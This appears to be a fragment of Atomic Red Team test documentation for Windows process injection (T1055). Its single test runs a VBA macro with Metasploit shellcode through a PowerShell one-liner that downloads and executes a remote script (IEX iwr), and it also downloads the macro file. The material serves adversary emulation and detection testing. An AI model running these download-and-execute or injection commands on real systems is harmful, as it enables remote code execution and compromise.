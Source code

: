 - [Atomic Test #13 - UUID custom process Injection](#atomic-test-13---uuid-custom-process-injection)


<br/>

## Atomic Test #1 - Shellcode execution via VBA
This module injects shellcode into a newly created process and executes. By default the shellcode is created,
with Metasploit, for use on x86-64 Windows 10 machines.

Note: Due to the way the VBA code handles memory/pointers/injection, a 64bit installation of Microsoft Office
is required.

**Supported Platforms:** Windows


**auto_generated_guid:** 1c91e740-1729-4329-b779-feba6e71d048





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| txt_path | Path to file containing VBA macro to run | path | PathToAtomicsFolder&#92;T1055&#92;src&#92;x64&#92;T1055-macrocode.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "#{txt_path}" -officeProduct "Word" -sub "Execute"
```




#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```
##### Description: "#{txt_path}" must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "#{txt_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{txt_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}" -UseBasicParsing
```
